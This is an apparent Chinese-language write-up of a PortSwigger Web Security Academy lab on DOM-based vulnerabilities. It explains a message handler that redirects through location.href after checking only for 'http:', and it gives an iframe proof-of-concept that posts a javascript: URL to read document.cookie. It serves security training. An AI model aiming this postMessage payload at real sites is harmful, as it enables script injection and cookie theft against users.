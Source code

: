 

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/基于DOM的漏洞/images/3BADA327747846B8AFA9722D957622CAclipboard.png)

url.indexOf('http:')>-1  表示提交的参数必须含有http:

将接收到的url，使用location.href跳转。location.href可以使用javascript协议执行js代码



poc:

```javascript
<iframe src="//ac6e1f531ec480af801c615400ba00e6.web-security-academy.net/" 
//获取http:前面的内容，所以这里使用注释符
onload="this.contentWindow.postMessage('javascript:alert(document.cookie)//http:','*')">
```

